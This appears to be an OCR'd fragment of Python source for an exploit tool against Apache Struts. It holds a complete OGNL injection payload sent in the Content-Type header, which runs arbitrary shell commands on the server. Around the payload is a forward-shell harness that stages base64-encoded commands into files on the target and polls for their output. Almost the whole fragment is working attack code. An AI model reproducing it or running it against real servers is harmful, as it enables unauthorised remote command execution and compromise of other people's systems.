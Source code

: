             # set up read thread
            print("[*] Setting up read thread")
            self.interval = interval
            thread = threading.Thread(target=self.ReadThread, args=())
            thread.daemon = True
            thread.start()

        def ReadThread(self):
            GetOutput = f"""/bin/cat {self.stdout}"""
            while True:
                result = self.RunRawCmd(GetOutput) #, proxy=None)
                if result:
                    print(result)
                    ClearOutput = f"""echo -n "" > {self.stdout}"""
                    self.RunRawCmd(ClearOutput)
                time.sleep(self.interval)

        def RunRawCmd(self, cmd, timeout=50, proxy="http://127.0.0.1:8080"):
            payload = "%{(#_='multipart/form-data')."
            payload += "(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)."
            payload += "(#_memberAccess?"
            payload += "(#_memberAccess=#dm):"
            payload += "((#container=#context['com.opensymphony.xwork2.ActionContext.container'])."
            payload += "(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class))."
            payload += "(#ognlUtil.getExcludedPackageNames().clear())."
            payload += "(#ognlUtil.getExcludedClasses().clear())."
            payload += "(#context.setMemberAccess(#dm))))."
            payload += f"(#cmd='{cmd}')."
            payload += "(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win')))."
            payload += "(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd}))."
            payload += "(#p=new java.lang.ProcessBuilder(#cmds))."
            payload += "(#p.redirectErrorStream(true)).(#process=#p.start())."
            payload += "(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream()))."
            payload += "(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros))."
            payload += "(#ros.flush())}"

            if proxy:
                proxies = self.proxies
            else:
                proxies = {}

            headers = {'User=Agent': 'Mozilla/5.0', 'Content-Type': payload}
            try:
                r = requests.get(self.url, headers=headers, proxies=proxies, timeout=timeout)
                return r.text
            except:
                pass

        def WriteCmd(self, cmd):
            b64cmd = base64.b64encode(f'{cmd.rstrip()}\n'.encode('utf-8')).decode('utf-8')
            stage_cmd = f'echo {b64cmd} | base64 -d > {self.stdin}'
            self.RunRawCmd(stage_cmd)
            time.sleep(self.interval * 1.1)
